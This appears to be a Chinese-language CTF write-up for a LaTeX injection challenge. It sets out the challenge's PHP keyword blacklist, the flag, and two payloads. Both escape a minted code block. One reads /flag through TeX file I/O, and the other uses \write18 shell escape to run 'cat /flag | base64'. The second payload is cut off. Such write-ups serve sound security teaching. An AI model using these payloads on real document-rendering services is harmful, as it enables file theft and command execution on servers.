 从简单的统计数据中来看，只有$\frac{46}{302}\approx 15\%$的提交是真正看懂了题意并尝试解答

总结一下：大一新生可能没有接触过$\LaTeX$，验题时样本偏差较大.... （唯一做出来的队还是大三的）

#### flag

```text
WHUCTF{La$eX^1n_Jec$i0n-JmgCaHnLoKQfsC135zwK}
```

#### payload

regex ( PHP Side )

在题目页面上，只要稍微尝试写一些`python`代码即可发现存在过滤（最常见的输入`input()`会被替换），所以答题者在构造下面的`payload`时需要注意`fuzz`一下黑名单词汇

```php
$pattern = '/echo|flag|immediate|write18|input/i';
$code = preg_replace($pattern, "REPLACED", $_POST["code"]);
```

payload

这里有一点难度的是需要猜测代码高亮的宏包，多数人可能听过的时`lstlisting`，而题目用的是`minted`（`minted`需要开启`shell escape`选项，刚刚好提供了`shell`执行的能力）

考虑到猜测`minted`可能存在一定的难度，我在题目描述中故意使用了这个词：

> I believe you will be happy with this newly **minted** document.

```latex
\end{minted}

\def\inp{\string\in}
\def\iput{put}
\def\cmdfl{/fl}
\def\cmd{\string{\cmdfl ag\string}}

\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{\inp\iput\cmd}
\closeout\outfile

\newread\file
\openin\file=cmd.tex
\loop\unless\ifeof\file
\read\file to\fileline
\fileline
\repeat
\closein\file

\begin{minted}{python}
```

顺便附上解题者的`payload`：他使用了`base64`处理`flag`，很聪明的做法成功绕过了特殊字符解析的问题

```latex
\end{minted}
\def \imm {\string\imme}
\def \diate {diate}
\def \eighteen {\string18}
\def \wwrite {\string\write\eighteen}
\def \fa {fl}
\def \ag {ag}
\def \args {\string{cat /\fa\ag |base64> test.tex\string}}
\def \inp {\string\in}
\def \iput {put}
\def \cmd {\string{test.tex\string}}

% First run
```
